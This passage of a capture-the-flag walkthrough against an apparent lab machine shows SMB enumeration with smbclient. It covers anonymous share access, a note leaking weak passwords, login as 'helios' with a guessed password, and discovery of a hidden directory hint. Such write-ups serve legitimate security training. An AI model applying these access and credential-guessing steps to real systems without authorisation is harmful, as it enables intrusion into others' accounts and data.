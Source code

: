```bash
root@kali:~$ smbclient //192.168.179.135/anonymous -U "" -N
smb: \> ls
  .                                   D        0  Fri Jun 28 20:14:49 2019
  ..                                  D        0  Fri Jun 28 20:12:15 2019
  attention.txt                       N      154  Fri Jun 28 20:14:49 2019

                19994224 blocks of size 1024. 17293984 blocks available
smb: \> get attention.txt
getting file \attention.txt of size 154 as attention.txt (16.7 KiloBytes/sec) (average 16.7 KiloBytes/sec)
smb: \> exit

root@kali:~$ cat attention.txt 

Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'! 

Next person I find using one of these passwords will be fired!

-Zeus
```

We find the **attention.txt** file, download it and see the content specifying that users stop using weak passwords, possibly a of these belongs to helios user.

Then we try with the following credentials **helios:qwerty** and we have access.

```bash
root@kali:~$ smbclient //192.168.179.135/helios -U "helios"    
Enter WORKGROUP\helios's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jun 28 19:32:05 2019
  ..                                  D        0  Fri Jun 28 19:37:04 2019
  research.txt                        A      432  Fri Jun 28 19:32:05 2019
  todo.txt                            A       52  Fri Jun 28 19:32:05 2019

                19994224 blocks of size 1024. 17284192 blocks available
smb: \> get research.txt
getting file \research.txt of size 432 as research.txt (60.3 KiloBytes/sec) (average 37.3 KiloBytes/sec)
smb: \> get todo.txt
getting file \todo.txt of size 52 as todo.txt (6.3 KiloBytes/sec) (average 29.5 KiloBytes/sec)
smb: \> exit

root@kali:~$ cat research.txt 
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
root@kali:~$ cat todo.txt 

1. Binge watch Dexter
2. Dance
3. Work on /h3l105
```
We found two files we download it and we see at the bottom of the **todo.txt** file the word **h3l105**, this is possibly a directory name.

